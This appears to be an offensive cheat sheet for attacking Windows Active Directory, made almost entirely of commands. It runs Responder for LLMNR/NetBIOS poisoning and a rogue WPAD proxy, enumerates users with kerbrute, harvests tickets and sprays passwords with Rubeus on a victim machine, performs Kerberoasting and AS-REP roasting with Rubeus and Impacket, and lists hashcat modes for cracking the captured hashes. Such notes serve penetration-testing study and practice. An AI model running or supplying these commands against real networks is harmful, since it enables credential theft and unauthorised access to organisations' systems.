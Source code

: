 # responder
```console
$ cat /etc/responder/Responder.conf | grep SMB #if OFF change to ON
SMB = ON 
$ sudo responder -I tun0 -rdw -v
```
- r: switch enables netbios wredir suffix queries
- d: switch enables netbios domain suffix querie
- w: switch starts the wpad rogue proxy server
- v: verbose

# Attacking Kerberos
## kerbrute: user enum
```Console
$ ./kerbrute userenum --dc example.local -d example.local users.txt
```
https://github.com/GhostPack/Rubeus
## Harvesting Tickets
on victim machine
```powershell
$ ./Rubeus.exe harvest /interval:30 # harvest for TGTs every 30 seconds
```
## Brute-Forcing / Password-Spraying
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: ```echo <ip> example.local >> C:\Windows\System32\drivers\etc\hosts```
```powershell
$ ./Rubeus.exe brute /password:<password> /noticket # This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 
```
# Kerberoasting
on kali, `hashcat -m 13100`
## Rubeus
on victim machine
```powershell
$ ./Rubeus.exe kerberoast
```
## Impacket
```console
$ sudo python3 GetUserSPNs.py example.local/username:password -dc-ip $IP -request
```
# AS-REP Roasting
on kali, `hashcat -m 18200`
## Rubeus
on victim machine
```powershell
$ ./Rubeus.exe asreproast
```